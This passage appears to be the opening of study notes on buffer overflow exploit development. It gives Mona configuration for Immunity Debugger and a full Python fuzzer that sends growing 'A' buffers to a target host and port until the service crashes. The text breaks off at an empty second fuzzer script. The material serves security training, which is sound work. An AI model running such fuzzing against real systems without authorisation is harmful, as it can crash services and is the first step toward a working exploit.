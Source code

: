 ![cc3548b50f8016fe7634727ecb2549e4.png](../resources/cc3548b50f8016fe7634727ecb2549e4.png)

### Mona commands
Set the current working directory :
`!mona config -set workingfolder c:\mona\%p`
### Fuzzing
Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger.

```
# fuzzer.py

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
```
```
# fuzzer2.py

import socket

```